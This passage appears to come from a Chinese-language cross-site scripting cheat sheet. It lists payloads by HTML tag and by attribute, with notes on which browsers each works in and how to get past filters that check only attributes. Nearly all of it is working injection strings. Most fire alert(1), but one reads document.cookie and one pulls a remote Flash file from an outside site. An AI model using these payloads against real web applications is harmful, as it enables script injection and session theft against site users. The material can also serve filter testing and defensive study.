 `<object data=data:text/html;base64,PHNjcmlwdD5hbGVydCgiS0NGIik8L3NjcmlwdD4=></object>`
#### marquee 标签
`<marquee onstart="alert('1')"></marquee>`
#### isindex 标签
在一些只针对属性做了过滤的 webapp 中，action 很有可能是漏网之鱼。
`<isindex type=image src=1 onerror=alert(1)> `
`<isindex action=javascript:alert(1) type=image>`
#### input 标签
通过 event 来调用 js。和 button 一样通过 autofocus 可以达到无需交互即可弹窗的效果。
`<input onfocus=javascript:alert(1) autofocus>` 
`<input onblur=javascript:alert(1) autofocus><input autofocus>`
#### select 标签
`<select onfocus=javascript:alert(1) autofocus>`
#### textarea 标签
`<textarea onfocus=javascript:alert(1) autofocus>`
#### keygen 标签
`<keygen onfocus=javascript:alert(1) autofocus>`
#### frameset 标签
`<FRAMESET><FRAME SRC="javascript:alert(1);"></FRAMESET>` 
#### embed 标签
`<embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgiS0NGIik8L3NjcmlwdD4="></embed>` //chrome 
`<embed src=javascript:alert(1)>` //firefox
#### svg 标签
`<svg onload="javascript:alert(1)" xmlns="http://www.w3.org/2000/svg"></svg>`
`<svg xmlns="http://www.w3.org/2000/svg"><g onload="javascript:alert(1)"></g></svg>`  //chrome有效
#### math 标签
`<math href="javascript:javascript:alert(1)">CLICKME</math>` 
`<math><y/xlink:href=javascript:alert(51)>test1` 
`<math> <maction actiontype="statusline#http://wangnima.com" xlink:href="javascript:alert(49)">CLICKME</maction> </math>`
#### video 标签
`<video><source onerror="alert(1)"> ` 
`<video src=x onerror=alert(48)>`
#### audio 标签
`<audio src=x onerror=alert(47)>`
### 属性字典（待补充）
说几个可能特殊一点的属性，其他的属性请组合相应的标签使用并构造。
#### background 属性
`<table background=javascript:alert(1)></table>` // 在Opera 10.5和IE6上有效
#### poster 属性
`<video poster=javascript:alert(1)//></video>` // Opera 10.5以下有效
#### code 属性
`<applet code="javascript:confirm(document.cookie);">` // Firefox有效
`<embed code="http://businessinfo.co.uk/labs/xss/xss.swf" allowscriptaccess=always>`
#### expression 属性
`<img style="xss:expression(alert(0))">` // IE7以下
 